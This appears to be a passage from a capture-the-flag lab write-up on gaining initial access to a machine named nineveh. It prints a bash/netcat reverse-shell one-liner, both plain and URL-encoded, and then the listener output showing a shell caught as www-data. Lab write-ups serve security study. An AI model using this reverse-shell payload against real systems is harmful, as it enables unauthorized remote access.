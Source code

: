 ![](assets/Pasted%20image%2020250611130602.png)

## Initial Access

So if we put a bash reverse shell.

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.14.17 443 >/tmp/f

# url encoded
rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Cbash%20-i%202%3E%261%7Cnc%2010.10.14.17%20443%20%3E%2Ftmp%2Ff
```


```shell
$ sudo rlwrap nc -lnvp 443    
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.43] 44224
bash: cannot set terminal process group (1401): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ whoami
whoami
www-data
```

